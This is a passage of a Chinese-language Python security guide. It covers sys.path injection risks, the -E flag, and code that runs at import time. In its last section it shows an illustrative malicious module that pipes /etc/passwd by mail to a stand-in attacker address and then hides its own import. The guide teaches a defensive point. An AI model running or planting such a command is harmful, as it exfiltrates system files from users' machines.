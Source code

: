 处理措施是维护搜索路径中的所有目录和包文件的安全访问权限，以确保未经授权的用户无法对其进行写访问。请记住，调用Python解释器的初始脚本所在的目录会自动插入到搜索路径中。

像这样运行脚本显示实际的搜索路径：

```python

       $ cat myapp.py
       #!/usr/bin/python
    
       import sys
       import pprint
    
       pprint.pprint(sys.path)
    
```

在Windows平台，Python进程的当前工作目录，而不是脚本所在位置，会被[注入](https://docs.python.org/3/using/windows.html#finding-modules)到搜索路径中。在UNIX平台，无论何时从标准输入或者命令行("-"或者"-c"或者"-m"选项)读入程序代码，当前工作目录都会自动插入到`sys.path`中：

```python

       $ echo "import sys, pprint; pprint.pprint(sys.path)" | python -
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
       $ python -c 'import sys, pprint; pprint.pprint(sys.path)'
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
       $
       $ cd /tmp
       $ python -m myapp
       ['',
        '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
        '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
        ...]
    
```

要处理从当前工作路径注入模块的风险，推荐在Windows运行Python或者通过命令行传递代码之前，显式地修改目录到一个安全的目录。

另一个搜索路径可能的来源是`$PYTHONPATH`环境变量的内容。抵御`sys.path`不被进程环境污染的简单方法是传递`-E`选项给Python解释器，这会让它忽略`$PYTHONPATH`变量。

## 导入时的代码执行

语句实际上会导致导入的模块中的代码的执行，这一事实并不明显。这就是为什么甚至导入不可信模块或包是有风险的。导入像这样的简单模块可能会导致不愉快的结果：

```python

       $ cat malicious.py
       import os
       import sys
    
       os.system('cat /etc/passwd | mail attacker@blackhat.com')
    
       del sys.modules['malicious']  # pretend it's not imported
       $ python
       >>> import malicious
       >>> dir(malicious)
       Traceback (most recent call last):
       NameError: name 'malicious' is not defined
    
```
